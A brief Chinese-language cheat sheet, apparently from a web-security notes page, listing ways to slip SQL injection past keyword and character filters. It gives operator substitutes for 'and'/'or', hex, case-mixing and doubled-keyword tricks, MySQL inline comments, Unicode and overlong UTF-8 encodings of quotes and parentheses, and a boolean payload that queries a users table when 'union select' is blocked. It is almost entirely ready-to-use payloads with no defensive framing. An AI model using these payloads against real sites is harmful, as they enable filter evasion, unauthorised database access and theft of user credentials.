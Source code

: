 ## 过滤and or

or     ——>    ||
and     ——>    &&
xor ——> |   
not ——> !

### 十六进制绕过

or ——> o\x72

### 大小写绕过

Or
aNd

### 双写绕过

oorr
anandd

urlencode，ascii(char)，hex，unicode编码绕过
    一些unicode编码举例：
    单引号：'
    %u0027 %u02b9 %u02bc
    %u02c8 %u2032
    %uff07 %c0%27
    %c0%a7 %e0%80%a7
   
### 关键字内联注释尝试绕所有

/*!or*/
/*!and*/

## 左括号过滤

urlencode，ascii(char)，hex，unicode编码绕过
%u0028 %uff08
%c0%28 %c0%a8
%e0%80%a8

## 右括号过滤

urlencode，ascii(char)，hex，unicode编码绕过
%u0029 %uff09
%c0%29 %c0%a9
%e0%80%a9

## 过滤union\select

逻辑绕过
例：
过滤代码 union select user,password from users
绕过方式 1 && (select user from users where userid=1)='admin'
